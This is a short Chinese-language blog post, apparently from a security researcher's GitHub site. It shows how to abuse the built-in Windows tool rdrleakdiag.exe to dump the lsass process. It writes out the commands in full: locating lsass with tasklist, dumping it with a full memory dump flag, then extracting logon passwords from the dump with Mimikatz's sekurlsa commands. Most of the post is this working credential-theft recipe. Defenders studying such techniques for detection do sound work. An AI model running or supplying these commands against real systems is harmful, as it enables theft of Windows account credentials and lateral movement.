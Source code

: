 ```yaml
---
layout: post
title: "使用 rdrleakdiag.exe 转储进程"
tags: [Process_Dump, Tricks]
comments: true
---
```


# rdrleakdiag.exe

---

最近在 Twitter 看到有安全研究员公示了一个用于进程转储的工具，且在 Windows 的多版本中属于系统自带的程序，如果目标不存在此程序，也可以上传执行，程序本身的目的是用于资源泄露诊断，但是现在可以利用它转储指定的进程，推主贴出了用于进程转储的参数；

![](https://xxxeyj.github.io/images/20-09-15_ONE.PNG)

在 Windows 10 操作系统共发现了四个  "rdrleakdiag.exe" 程序；

在这里我们以 " C:\\Windows\System32" 目录下的 "rdrleakdiag.exe" 用作测试，首先使用 cmd 命令查找 lsass 进程的 pid；

```cmd
tasklist /svc | findstr lsass
```

![](https://xxxeyj.github.io/images/20-09-15_TWO.PNG)

可以看到 lsass 的进程 pid 为 548；

使用如下命令转储进程；
```cmd
rdrleakdiag.exe /p 548 /o C:\Users\Administrator\Desktop\ /fullmemdmp /wait 1
```
![](https://xxxeyj.github.io/images/20-09-15_THREE.PNG)

可以看到桌面上已经生成了两个文件，将其 dmp 拷贝至 Mimikatz 目录下，而后使用 Mimikatz 载入 dmp 文件，使用如下两条命令即可；
```mimikatz
sekurlsa::minidump minidump_548.dmp
sekurlsa::logonpasswords
```
![](https://xxxeyj.github.io/images/20-09-15_FOUR.PNG)

## Reference

---

https://twitter.com/0gtweet/status/1299071304805560321
